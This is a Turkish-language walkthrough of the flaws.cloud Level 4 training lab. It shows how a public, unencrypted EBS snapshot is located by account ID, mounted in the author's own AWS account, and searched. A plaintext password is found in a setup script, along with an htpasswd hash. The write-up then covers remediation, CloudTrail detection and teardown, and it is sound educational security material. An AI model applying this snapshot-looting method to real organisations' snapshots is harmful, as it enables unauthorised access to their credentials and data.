










# flaws.cloud — Level 4

## 1. Özet

Level 4, önceki üç level'ın aksine bir S3 bucket açığı değil, **EC2/EBS**
tarafında bir açık. flaws.cloud, nginx web sunucusunu kurup ayarladıktan
**sonra** o sunucunun EBS volume'ünden bir **snapshot** almış ve bu
snapshot'ı yanlışlıkla **public** (herkese açık) ve **şifrelenmemiş**
bırakmış. Bir EBS snapshot public olduğunda, herhangi bir AWS hesabı onu
kendi hesabına bir **volume** olarak kopyalayabilir, kendi EC2
instance'ına attach edip mount edebilir ve içindeki **tüm dosya
sistemini** (kurulum script'leri, config dosyaları, credential'lar dahil)
okuyabilir — snapshot sahibinin bundan haberi bile olmaz.

Level 3'te sızan `backup` kullanıcısının key'iyle öğrenilen flaws.cloud
**Account ID**'si (`975426262029`), bu level'da tam olarak işe yarıyor:
public snapshot'lar arasında belirli bir hesaba ait olanı bulmanın tek
pratik yolu, Account ID ile filtrelemek.

## 2. Sömürü (Exploit)

**a) Public snapshot'ların taranması (Account ID olmadan)**

AWS Console → EC2 → Snapshots, "Snapshot scope" filtresi **Public
snapshots** olarak ayarlandığında, `us-west-2` bölgesinde **1999+**
sonuç dönüyor. Bu kadar çok public snapshot arasında, hangisinin
flaws.cloud'a ait olduğunu Account ID bilmeden bulmak pratik değil:



**b) Account ID ile filtreleme ve hedef snapshot'ın bulunması**

Aynı ekranda arama kutusuna Level 3'ten sızan Account ID
(`975426262029`) yazıldığında sonuç **tek bir snapshot'a** düşüyor:

```
Snapshot ID: snap-0b49342abd1bdcb89
Full snapshot size: 2.31 GiB
Volume size: 8 GiB
Snapshot status: Completed
Started: 2017/02/28 04:35 GMT+3
Progress: 100%
```



**c) Snapshot'tan volume oluşturma ve instance'a attach etme**

Bulunan snapshot ID ile CLI üzerinden kendi hesabımda bir volume
oluşturuldu:

```bash
aws ec2 create-volume --snapshot-id snap-0b49342abd1bdcb89 \
  --availability-zone us-west-2a --region us-west-2
```

```json
{
    "AvailabilityZoneId": "usw2-az2",
    "Iops": 100,
    "Tags": [],
    "VolumeType": "gp2",
    "MultiAttachEnabled": false,
    "VolumeId": "vol-0156a1f76dd894a62",
    "Size": 8,
    "SnapshotId": "snap-0b49342abd1bdcb89",
    "AvailabilityZone": "us-west-2a",
    "State": "creating",
    "CreateTime": "2026-08-01T12:05:09+00:00",
    "Encrypted": false
}
```

Çıktıda dikkat çeken kritik alan **`"Encrypted": false`** — snapshot
şifrelenmemiş, yani bu volume'ü kim kopyalarsa kopyalasın içeriği
doğrudan okunabilir durumda (Önleme bölümünde bu ayrıntıya tekrar
değinilecek).

Ardından volume, önceden hazırlanmış bir EC2 instance'ına attach
edildi:

```bash
aws ec2 attach-volume --volume-id vol-0156a1f76dd894a62 \
  --instance-id i-0124cd4912159b89f --device /dev/xvdf --region us-west-2
```

```json
{
    "VolumeId": "vol-0156a1f76dd894a62",
    "InstanceId": "i-0124cd4912159b89f",
    "Device": "/dev/xvdf",
    "State": "attaching",
    "AttachTime": "2026-08-01T12:33:34.541000+00:00"
}
```



**d) Kendi EC2 instance'ının hazırlanması**

Volume'ü mount edebilmek için önceden kendi hesabımda bir EC2 instance'ı
(`flaws-level4-lab`, ID `i-0124cd4912159b89f`) çalışır durumda
tutuluyordu — `us-west-2a` Availability Zone'da, Public IPv4
`54.244.56.18`, Private IPv4 `172.31.36.242`:



Bu instance'ın launch aşamasında Inbound Security Group kuralı bilinçli
olarak dar tutuldu: **Type SSH, Protocol TCP, Port 22, Source type "My
IP"** (`78.176.103.255/32`) — yani "Anywhere" (`0.0.0.0/0`) **değil**,
sadece kendi IP adresimden SSH kabul ediliyor. Bu, kendi test
ortamımdaki bir güvenlik iyi-pratiği:



**e) SSH ile bağlanma ve attach edilen volume'ün görülmesi**

```bash
chmod 400 flaws-lab-key.pem
ssh -i flaws-lab-key.pem ec2-user@54.244.56.18
```
**f) Volume'ün salt-okunur mount edilmesi**
```bash
sudo mkdir -p /mnt/snapshot
sudo mount -o ro /dev/nvme1n1p1 /mnt/snapshot
```
Volume, olası bir yazma/bozma riskini engellemek için **read-only**
(`-o ro`) olarak mount edildi. Sonraki adımlarda `/mnt/snapshot`
altından dosya başarıyla okunabildiği için mount işleminin başarılı
olduğu doğrulanıyor.


Host fingerprint onaylandı (`yes`), Amazon Linux 2023 banner'ı ve
`lsblk` çıktısı görüldü: kök disk `nvme0n1` (8G, `/` ve `/boot/efi`) ile
birlikte, attach edilen snapshot volume'ü `nvme1n1` / `nvme1n1p1`
(8G) — henüz **mount edilmemiş** durumda:



**g) `.htpasswd` içinde hash bulunması**

```bash
sudo cat /mnt/snapshot/etc/nginx/.htpasswd
```

```
flaws:$apr1$4ed/7TEL$cJnixIRA6P4H8JDvKVMku0
```



Bu bir **apr1 (MD5-crypt) hash'i**, düz metin şifre değil. Hash'i
kırmaya çalışmak yerine, aynı dosya sisteminde şifrenin **düz metin**
olarak nerede saklanmış olabileceğini aramaya karar verildi — çünkü
kurulum script'leri genellikle credential'ları düz metin olarak
içerir.

**h) `setupNginx.sh` içinde düz metin şifrenin bulunması**

```bash
sudo find /mnt/snapshot/home -type f 2>/dev/null
```

```
/mnt/snapshot/home/ubuntu/.ssh/authorized_keys
/mnt/snapshot/home/ubuntu/.sudo_as_admin_successful
/mnt/snapshot/home/ubuntu/.profile
/mnt/snapshot/home/ubuntu/.bashrc
/mnt/snapshot/home/ubuntu/.bash_history
/mnt/snapshot/home/ubuntu/.viminfo
/mnt/snapshot/home/ubuntu/.bash_logout
/mnt/snapshot/home/ubuntu/setupNginx.sh
/mnt/snapshot/home/ubuntu/.cache/motd.legal-displayed
/mnt/snapshot/home/ubuntu/meta-data
```

`setupNginx.sh` dosyası, adından da anlaşılacağı gibi nginx kurulum/
yapılandırma script'i — ve içeriği doğrudan düz metin şifreyi
barındırıyor:

```bash
sudo cat /mnt/snapshot/home/ubuntu/setupNginx.sh
```

```
htpasswd -b /etc/nginx/.htpasswd flaws nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M
```



Bu önemli bir ders: `.htpasswd`'deki hash'i kırmaya hiç gerek
kalmadı — çünkü şifreyi üreten kurulum script'i, snapshot'ın içinde
düz metin olarak kalmıştı.

**i) Giriş ve flag**

Tarayıcıda `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/`
adresine kullanıcı adı `flaws`, şifre
`nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M` ile HTTP Basic Auth girişi yapıldı ve
başarılı oldu:

```
flAWS - Level 5
Good work getting in. This level is described at
http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/
```



## 3. Önleme (Remediation)

Kendi test ortamımda, flaws.cloud'un yaptığının **tam tersini**
uygulayan bir snapshot oluşturdum: şifreli ve private.

- flaws.cloud'un snapshot'ı (`snap-0b49342abd1bdcb89`) **`Encrypted:
  false`** ve **public** paylaşılmıştı (bkz. Sömürü adım c ve bu
  snapshot'ın Account ID ile bulunabilir/herkese açık olması, adım b).
- Kendi hesabımda oluşturduğum örnek snapshot (`snap-04a80fdb89fd3a587`,
  kaynak volume `vol-0d3f2b3e4e98bf587`, 100 GiB) ise **Encrypted**
  (KMS key alias `aws/ebs`, KMS key ID `3ee4d086-6076-4555-8fe2-
  07b64bcfb0c5`) ve **Share permissions: Private** ("The snapshot is
  shared only with AWS accounts that you specified.") olarak
  oluşturuldu:



| | flaws.cloud (açık) | Kendi test ortamım (düzeltilmiş) |
|---|---|---|
| Encrypted | `false` | `true` (KMS `aws/ebs`) |
| Share permissions | Public | Private |

Ek önlem notları:

- Snapshot'lar asla, içinde düz metin credential barındıran kurulum
  script'leriyle (`setupNginx.sh` gibi) birlikte alınmamalı; bu tip
  script'ler snapshot alınmadan önce diskten temizlenmeli ya da
  credential'lar hiç diske yazılmadan Secrets Manager/Parameter Store'dan
  çalışma anında çekilmeli.
- Şifreleme + private paylaşım prensip olarak varsayılan olmalı;
  `modify-snapshot-attribute` ile `createVolumePermission`'a `"all"`
  (yani public) grant'i hiçbir zaman verilmemeli.
- Kendi ortamımdaki panelde görülen not — **"You can only share
  snapshots that are encrypted with a customer managed key."** — şunu
  gösteriyor: KMS ile şifrelenmemiş (default EBS encryption kapalı)
  snapshot'lar (flaws.cloud'unki gibi) rahatça public/başka hesaplarla
  paylaşılabilirken, customer-managed key ile şifreli olanlar ancak
  açıkça belirtilen hesaplarla paylaşılabilir. Yani **şifreleme, yanlışlıkla
  public yapılmayı da AWS seviyesinde zorlaştıran** ek bir savunma
  katmanı.

## 4. Tespit (Detection)

Savunan tarafın bu tip bir açığı tespit etme imkânı, S3'teki senaryolara
göre çok daha sınırlı:

- **`ModifySnapshotAttribute` event'i** (CloudTrail) — bir snapshot'ın
  `createVolumePermission`'ına `"all"` eklendiği an, yani snapshot'ın
  public yapıldığı an — bu, tespit edilebilecek **en kritik** ve
  aslında **tek gerçek anlamlı** noktadır.
- **Kritik nüanç:** Bir public snapshot **başka bir hesap tarafından**
  okunduğunda/kopyalandığında (`describe-snapshots`, `create-volume`
  gibi), bu işlem snapshot **sahibinin** CloudTrail'inde **görünmez** —
  sadece erişen hesabın kendi loglarına düşer. S3'teki anonim erişimin
  aksine (owner'ın kendi access log'unda görülebilir), public snapshot
  okuması snapshot sahibi için **sessizdir**; sahip kimin, ne zaman
  eriştiğini hiçbir şekilde göremez.
- Bu yüzden bu açık sınıfında tek gerçek savunma **tespit değil
  önlemedir** — snapshot hiç public bırakılmamalı; "sonradan fark edip
  müdahale etme" seçeneği pratikte yok denecek kadar zayıf.
- **AWS Config** kuralları (`encrypted-volumes` ve benzeri) ile
  şifrelenmemiş volume/snapshot'lar proaktif olarak işaretlenebilir; bu,
  saldırıdan önce yakalamanın gerçekçi yoludur.

## 5. Kendi Test Ortamı Kanıtı

flaws.cloud'un public snapshot'ı (`snap-0b49342abd1bdcb89`) kendi
hesabıma bir volume olarak kopyalanıp (`vol-0156a1f76dd894a62`), kendi
EC2 instance'ıma (`i-0124cd4912159b89f`, sadece kendi IP'me açık SG ile)
attach edilip mount edildi — ground-truth: `/mnt/snapshot` altındaki
`setupNginx.sh` dosyasının içeriği, Level 5'e erişimi doğrulayan düz
metin şifreyi doğruladı. Ayrıca önleme örneği olarak kendi hesabımda,
KMS ile şifreli ve private bir snapshot (`snap-04a80fdb89fd3a587`)
oluşturularak flaws.cloud'un yaptığının tersi bir yapılandırma
gösterildi.

## 6. Teardown (Temizlik Disiplini)

İş bittiğinde tüm kaynaklar sırayla temizlendi:

```bash
sudo umount /mnt/snapshot
aws ec2 detach-volume --volume-id vol-0156a1f76dd894a62
# volume "available" state'ine geçene kadar beklendi
aws ec2 delete-volume --volume-id vol-0156a1f76dd894a62
aws ec2 terminate-instances --instance-ids i-0124cd4912159b89f
```

Önleme testi için oluşturulan volume/snapshot (`vol-0d3f2b3e4e98bf587`,
`snap-04a80fdb89fd3a587`) da aynı şekilde silindi.

**Not:** Detach işlemi tamamlanmadan `delete-volume` denendiğinde
`VolumeInUse` hatası alındı — volume'ün `attached` durumundan
`available` durumuna geçmesi beklenmesi gerektiği bizzat deneyimlendi.

## 7. Kök Neden (Paylaşılan Sorumluluk)

Bu açık, tamamen **müşteri (flaws.cloud)** tarafı bir yapılandırma
hatası:

- **(a)** Snapshot'ın public paylaşıma açılmış olması
  (`createVolumePermission: all`),
- **(b)** Snapshot'ın şifresiz alınmış olması (`Encrypted: false`),
- **(c)** Daha temelde, içinde düz metin credential barındıran bir
  diskin (`setupNginx.sh` script'i hâlâ diskte duruyorken) snapshot'ının
  alınmış olması — yani snapshot alma sürecinin, disk üzerindeki
  hassas verileri temizlemeden gerçekleştirilmesi.

AWS Paylaşılan Sorumluluk Modeli çerçevesinde: AWS, EBS snapshot'larını
**varsayılan olarak private** tutar ve KMS ile şifreleme imkânı sunar
(kendi test ortamımda gösterildiği gibi). Bir snapshot'ı bilinçli olarak
public ve şifresiz yapmak, tamamen kullanıcının tercihi/hatasıdır — bu
"security **of** the cloud" değil, "security **in** the cloud"
kategorisinde, yani müşterinin sorumluluğunda kalan bir hatadır.
